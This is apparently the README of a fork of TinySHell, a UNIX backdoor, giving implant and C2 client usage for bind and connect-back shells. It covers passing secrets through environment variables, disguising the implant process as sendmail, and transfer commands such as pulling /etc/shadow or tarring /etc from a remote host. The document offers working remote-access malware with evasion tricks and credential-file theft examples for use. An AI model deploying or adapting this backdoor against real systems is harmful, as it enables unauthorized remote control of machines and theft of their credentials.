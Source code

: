 This is an updated fork of creaktives fork of TinySHell, an open source UNIX backdoor.

creaktive added commandline argument parsing which allows you to dynamically set the connectback host, port, and shared secret value at runtime. 

Like so:
```
# implant side
Usage: ./tshd [ -c [ connect_back_host ] ] [ -s secret ] [ -p port ]

# c2 side
Usage: ./tsh [ -s secret ] [ -p port ] [command]

   <hostname|cb>
   <hostname|cb> get <source-file> <dest-dir>
   <hostname|cb> put <source-file> <dest-dir>
```

I've since added support for passing those arguments through an environmental variable by shamelessly copy-pasting Skyper from The Hackers Choice's implementation of env2argv from the THC fork of dsniff. 

So now you can do the following on the implant side:
```
ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" ./tshd
```

Which is kinda cool, but it gets neater - you can hide the process somewhat with old school trickery like the following - making it look like a sendmail process as an example:
```
mv tshd sendmail
PATH=.:$PATH ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" sendmail 
```

Further changes will follow as testing proceeds and I refactor small bits, try out some bullshit, etc. 

For the planned experiments/etc, see the Issues tab where I've created an issue for each "idea" to experiment with. 

I can't guarentee any timeline on how fast anything will get done, or in what order, it really depends on free time, effort, etc. 

## current notes:
11-04-2024: tested in bind shell mode, working on Ubuntu and FreeBSD targets. Reverse connect mode seems buggy, unclear if network gremlins or other. Build on OpenBSD fails. Plan going forward is to fix the reverse connect mode, then fix the OpenBSD build-time issues, then fix the OpenBSD run-time issues. 

## compatability/test notes

| OS | Distribution | Version | Architecture | Bind Shell Client | Bind Shell Server | Reverse Shell Client | Reverse Shell Server | File Upload | File Download | Env2Args |
| :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: |    :---:      |         :---: |
| Linux   | Ubuntu |   23.10  | x86_64 | YES | YES | NO | NO | UNK | UNK | YES |
| FreeBSD | FreeBSD | 14.0-RELEASE | x86_64 | YES | YES | NO | NO | UNK | UNK | YES |


## Original readme below.
```

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.

```
